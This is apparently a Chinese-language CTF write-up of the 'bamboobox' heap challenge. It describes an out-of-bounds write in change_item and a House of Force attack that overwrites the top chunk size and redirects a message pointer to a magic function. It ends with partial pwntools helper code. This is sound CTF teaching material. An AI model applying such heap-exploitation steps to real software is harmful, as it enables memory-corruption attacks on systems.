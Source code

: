 ![image-20220915215334815](/assets/img/2022/image-20220915215334815.png)

这一块逻辑逆向来看有点乱，动态调试后一目了然

![image-20220915215417716](/assets/img/2022/image-20220915215417716.png)

一个全局的itemlist，按照size, chunk_addr的顺序存放

![image-20220915215756238](/assets/img/2022/image-20220915215756238.png)

change_item有个越界写漏洞

利用：

![image-20220915220557755](/assets/img/2022/image-20220915220557755.png)

![image-20220915220414438](/assets/img/2022/image-20220915220414438.png)

利用越界写，改掉top chunk的size，改成0xffffffffffffffff

nb=0x603000-0x603050-16=-80-16=-96，所以malloc(-96)之后top chunk就会被搬到0x603000处。然后再malloc一个0x10大小的chunk，就可以改掉0x603010和0x603018处的两个指针

![image-20220915221416126](/assets/img/2022/image-20220915221416126.png) ![image-20220915221200676](/assets/img/2022/image-20220915221200676.png)

把goodbye_message改成magic

![image-20220915221557728](/assets/img/2022/image-20220915221557728.png)

exp:

```python
from pwn import *


r = process('./bamboobox')
elf = ELF('./bamboobox')


context.log_level='debug'
context.terminal = ['tmux', 'splitw', '-h']
def debug():
    gdb.attach(r)
    pause()
    
def add(size, name):
    r.recvuntil('Your choice:')
    r.sendline('2')
    r.recvuntil('Please enter the length of item name:')
    r.sendline(str(size))
    r.recvuntil('Please enter the name of item:')
    r.sendline(name)

def show():
    r.recvuntil('Your choice:')
    r.sendline('1')

def change(index, size, name):
    r.recvuntil('Your choice:')
    r.sendline('3')
    r.recvuntil('Please enter the index of item:')
    r.sendline(str(index))
    r.recvuntil('Please enter the length of item name:')
    r.sendline(str(size))
    r.recvuntil('Please enter the new name of the item:')
    r.sendline(name)
```